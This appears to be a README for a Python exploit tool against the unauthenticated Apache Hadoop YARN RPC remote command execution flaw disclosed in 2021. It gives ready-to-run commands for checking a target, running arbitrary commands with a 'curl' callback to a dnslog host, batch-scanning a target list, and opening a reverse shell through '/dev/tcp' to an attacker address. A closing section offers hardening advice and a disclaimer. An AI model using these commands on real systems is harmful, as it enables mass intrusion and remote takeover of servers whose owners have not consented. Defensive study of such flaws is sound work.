 ## Vuln Impact

On November 15, 2021, A security researcher disclosed that there was an unauthorized access vulnerability in Hadoop yarn RPC. This vulnerability existed in Hadoop yarn, the core component of Hadoop. Because Hadoop yarn opened the RPC service to the public by default, a remote attacker could take advantage of this unauthorized vulnerability and execute arbitrary commands through the RPC service, so as to control the target server, In view of the high-risk status and great harm of this vulnerability, and the details have been disclosed and exploited by the opposition, it is recommended that all users using Apache Hadoop conduct self-examination and take security measures in time.

## Vuln Product

Apache Hadoop Yarn *

## Vunl Check

#### Basic usage

```c
python3 Hadoop_Yan_RPC_RCE.py
```

![img](img/usage.png)

#### Vuln check

```c
python3 Hadoop_Yan_RPC_RCE.py -v true -t http://www.target.com 
```

![img](img/check.png)

#### command execute

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com  -c "curl xxx.dnslog.cn"
```

![attack](img/attack.png)

![dnslog](img/dnslog.png)

#### batch scan

```c
python3 Hadoop_Yan_RPC_RCE.py -s true -f target.txt
```

![scan_result](img/scan_result.png)

#### Reserve Shell

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
```

![reverse_shell1](img/reverse_shells.png)

### Reference

https://nosec.org/home/detail/4905.html

https://github.com/N0b1ta/Bit-Cannon/tree/master/Apache/Hadoop/YARN/hadoop-yarn-rest-api-unauth

#### Safety Advice  

1.Enable Kerberos authentication to prevent unauthorized access.  

```xml
<property>
    <name>hadoop.security.authentication</name>
    <value>kerberos</value>
    <final>false</final>
    <source>core-site.xml</source>
</property>...
<property>
    <name>hadoop.rpc.protection</name>
    <value>authentication</value>
    <final>false</final>
    <source>core-default.xml</source>
</property>
```

2.Prohibit external addresses from accessing Hadoop RPC service related ports or configured to be open only to trusted addresses.



**Solemnly declare: Don't use this tool for illegal operation. This tool is only used for safety self checking  by Party A's personnel and Party B's personnel**.